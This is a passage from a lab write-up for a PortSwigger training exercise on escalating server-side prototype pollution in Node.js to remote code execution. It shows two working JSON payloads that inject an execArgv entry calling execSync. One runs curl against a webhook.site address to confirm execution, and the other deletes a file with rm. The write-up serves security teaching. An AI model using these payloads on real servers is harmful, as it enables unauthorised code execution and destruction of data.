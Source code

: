 In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and [command injection](https://portswigger.net/web-security/os-command-injection) sinks, you can potentially escalate prototype pollution to gain full RCE capability on the server.

### Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`

Armed with above information, we can try to pollute the global `Object.prototype` to add arbitrary properties, which will then execute OS command!

But first, let's confirm it's really vulnerable to Remote Code Execution (RCE) via server-side prototype pollution.

**Payload:** (Inspired from [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#poisoning-__proto__))
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "QQsB0cKlcJXw90jYJXjy9WXsEDrxrMLQ",
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('curl https://webhook.site/9e750b29-46f0-4629-a07c-adeb8a7ed641')"
        ]
    }
}
```

**Send that payload in `/my-account/change-address`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-9/images/Pasted%20image%2020230222202022.png)

**Finally, run maintenance jobs again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-9/images/Pasted%20image%2020230222202058.png)

As you can see, both jobs failed.

However, you'll also notice that several DNS interactions have been received, which can confirm the web application is indeed vulnerable to RCE via server-side prototype pollution.

> Note: The lab will block all third party traffics except Burp Collaborator domain.

**Now, we can change the OS command to `rm /home/carlos/morale.txt`!**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "QQsB0cKlcJXw90jYJXjy9WXsEDrxrMLQ",
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
        ]
    }
}
```
